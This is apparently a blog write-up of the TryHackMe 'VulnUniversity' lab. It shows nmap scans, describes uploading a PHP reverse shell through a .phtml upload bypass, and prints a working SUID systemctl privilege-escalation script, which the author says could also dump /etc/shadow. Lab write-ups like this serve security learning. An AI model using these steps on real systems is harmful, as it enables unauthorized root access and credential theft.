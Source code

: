 ### THM VulnUniversity

Here we are again.  Back for another Linux box.  These all seem a little faster than the Windows ones.  Off we go.

```
(kali@kali)-$ sudo nmap -T4 -p- -Pn 10.10.120.147   
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-11 18:06 EST
Nmap scan report for 10.10.120.147
Host is up (0.11s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3128/tcp open  squid-http
3333/tcp open  dec-notes

Nmap done: 1 IP address (1 host up) scanned in 266.79 seconds
```

Got a couple ports to work with, take a deeper look at those.

```
(kali@kali)-$ sudo nmap -A -Pn -p 21,22,139,445,3128,3333 10.10.120.147
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-11 18:13 EST
Nmap scan report for 10.10.120.147
Host is up (0.11s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2024-11-11T23:13:39
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2024-11-11T18:13:39-05:00
|_clock-skew: mean: 1h40m00s, deviation: 2h53m12s, median: 0s

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   39.03 ms  10.6.0.1
2   ... 3
4   106.11 ms 10.10.120.147

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.37 seconds
```

So we do have some stuff to work with.  Since I'm on a bit of a time crunch, just going to write about how I got privilege escalation and the script that I used.

Checked FTP and SMB, didn't see anything of note.  Checked the webserver on 3333 with dirbuster and came back with the `/internal` directory.  Check that and it's a file upload page.

Enumerate that and find out that .phtml files can be uploaded.  Here we used Burpe Suite.  Then I went and found a php reverse shell to upload from pentestmonkey.

Uploaded that after chaning the needed items.  Started a netcat listener and navigated to the uploaded page and got my reverse shell.

Now that we're here, we do our normal enumeration.  One of the commands that we would run is...

`find / -perm -u=s -type f 2> /dev/null`

This will spit out a number of items to check the SUID against in GTFObins.

```
$ find / -perm -u=s -type f 2> /dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl   # This is the one we're looking for
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```

Check that again GTFObins and we get this...

![GTFObins](/Images/THM3VulnUniversity/pic1.png)

Take that and we copy and paste the first line and run it in the cmd line window.  Then, we're gonna modify the rest of the script and put it in line by line.

```
TF=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

We changed the command that we wanted to run to cat out the root.txt file and put it into the /tmp/output file.  We also did full paths for the systemctl instead of the ./.

```
$ sudo install -m =xs $(which systemctl) .
sudo: no tty present and no askpass program specified
$ TF=$(mktemp).service
$ echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
> [Install]
> WantedBy=multi-user.target' > $TF
$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.G7BEVD3MNG.service to /tmp/tmp.G7BEVD3MNG.service.
$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.G7BEVD3MNG.service to /tmp/tmp.G7BEVD3MNG.service.
```

Once that's done, we cat out the /tmp/output file and there we have it, a root flag.

![root flag](/Images/THM3VulnUniversity/pic2.png)

We can change that command to whatever we want really.  Here we just had it cat out a file and drop it into another file, but we could have used this to dump the /etc/shadow file as well.

Thanks for coming along, sorry this one was so short.  Got lots to get through yet still and not much time before I start my PNPT quest.  Thanks again for coming along.




